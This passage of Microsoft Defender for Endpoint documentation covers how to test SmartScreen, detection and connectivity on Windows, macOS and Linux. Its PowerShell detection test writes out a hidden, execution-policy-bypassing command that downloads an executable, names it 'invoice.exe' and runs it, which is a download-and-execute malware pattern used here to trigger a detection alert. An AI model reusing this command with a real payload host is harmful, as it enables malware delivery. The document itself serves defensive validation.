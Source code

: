 #### Test SmartScreen

Follow instructions in [Microsoft Defender SmartScreen Demo (msft.net)](https://demo.smartscreen.msft.net/).

### PowerShell detection test

1. On the Windows device, create a folder: `C:\test-MDATP-test`.

2. Open Command Prompt as an administrator.

3. In the Command Prompt window, run the following PowerShell command:

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

After the command runs, the Command Prompt window closes automatically. If successful, the detection test is marked as completed.

For macOS and Linux, you can use the following methods:

- MDATP connectivity tests
- Tracking with advanced hunting in Microsoft Defender XDR
- Run tests to confirm connectivity with Defender for Endpoint services

### MDATP connectivity test (macOS and Linux)

Run `mdatp health -details features` to confirm simplified_connectivity: "enabled".

Run `mdatp health -details edr` to confirm `edr_partner_geo_location` is available. The value should be `GW_<geo>` where 'geo' is your tenant's geo-location.

Run mdatp connectivity test. Ensure the streamlined URL pattern is present. You should expect two for '\storage', one for '\mdav', one for '\xplat', and one for '/packages'.

For example: `https:mdav.us.endpoint.security.microsoft/com/storage`

<a name='tracking-with-advanced-hunting-in-microsoft-365-defender'></a>

### Tracking with advanced hunting in Microsoft Defender XDR

Follow the same instructions as for Windows.

### Use Defender for Endpoint Client Analyzer (cross-platform) to validate connectivity for newly migrated endpoints

Download and run the client analyzer for macOS or Linux. For more information, see [Download and run the client analyzer](download-client-analyzer.md).

1. Run `mdeclientanalyzer.cmd -o <path to cmd file>` from within the MDEClientAnalyzer folder. The command uses parameters from the onboarding package to test connectivity.

2. Run `mdeclientanalyzer.cmd -g <GW_US, GW_UK, GW_EU>` (where parameter is of GW_US, GW_EU, GW_UK). GW refers to the streamlined option. Run with applicable tenant geo.
